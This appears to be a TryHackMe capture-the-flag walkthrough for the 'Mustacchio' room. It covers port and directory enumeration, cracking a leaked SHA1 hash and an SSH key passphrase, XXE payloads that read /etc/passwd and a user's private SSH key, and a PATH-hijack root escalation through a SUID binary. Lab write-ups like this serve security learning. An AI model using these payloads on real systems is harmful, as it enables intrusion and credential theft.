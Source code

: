 # 26 - Mustacchio (XML Injection)

Room Link --> [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -p- -sS -Pn -n -T5 10.10.109.222 -vv

# outputs
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8765/tcp open  ultraseek-http syn-ack ttl 63
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# output
/custom 
/fonts
/images
```
{% endcode %}

Navigating to http://10.10.109.222/custom and discovered a "users.bak" sqlite db file, then opened and found credentials for "admin" user.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or we can use the Sqlite3 cmd binary to view.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ sqlite3 users.bak                                                                                     
SQLite version 3.43.1 2023-09-11 12:01:27
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> pragma table_info(users);
0|username|TEXT|1||0
1|password|TEXT|1||0
sqlite> SELECT * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
sqlite>
```
{% endcode %}

Crack the hash using john.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# its a sha1 hash.
john passwd --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1
bulldog19        (?)

# got a valid credential
admin : bulldog19
```
{% endcode %}

#### port 8765 enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222:8765 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# outputs
/assets
/auth
/index.php
```
{% endcode %}

Navigating to `http://10.10.109.222:8765/index.php` was an admin login session.

I tried the admin credentials and was logged in successfully.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After authentication ,check the source code and see a link in the "\<script>" session.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigating to the path:  `http://10.10.109.222:8765/auth/dontforget.bak` downloaded the  "dontforget.bak" file. And there is also a comment in the page displaying a username: Barry.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

When you click the SUbmit button we get prompted with a "Insert XML Code!" alert, which suggest the page might be vulnerable to XML injection attack.

A resource we can use to structure our payload --> [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity?source=post\_page-----ee526a543d8a--------------------------------)

#### XML Injection

I Was able to craft my own payload to view the /etc/passwd file usisng the structure of the XML code in the "dontforget.bak" file.

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/etc/passwd"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we see 2 users + root, ie; Joe, Barry and Root. Our focus should be on reading the ssh private key for Barry as hinted by the comment in the source code. And i crafted another payload to read it:

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It will be hard to use in this case, so i viewed the source code instead.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First thing is to check if it iss encrypted by converting it to a crackable format for "johnthereaper"

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# and the password is:
urieljames       (id_rsa)

# login ssh.
ssh barry@10.10.109.222 -i id_rsa
```
{% endcode %}

And we got access :)

### Priv Esc to Joe

#### SUID binaries:

{% code overflow="wrap" lineNumbers="true" %}
```bash
find / -user root -perm /4000 -exec ls -l {} \; 2>/dev/null

# i ssaw a "/home/joe/live_log" binary 
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
```
{% endcode %}

Using the **strings** command, I could see that the binary was using the **tail** command to read the last 10 entries in the _/var/log/nginx/access.log_ file. We could exploit this.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we get root this way.

barry@mustacchio:~$ echo "/bin/sh" > /tmp/tail
barry@mustacchio:~$ export PATH=/tmp:$PATH 
barry@mustacchio:~$ /home/joe/live_log
# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
# 
```
{% endcode %}

Done!
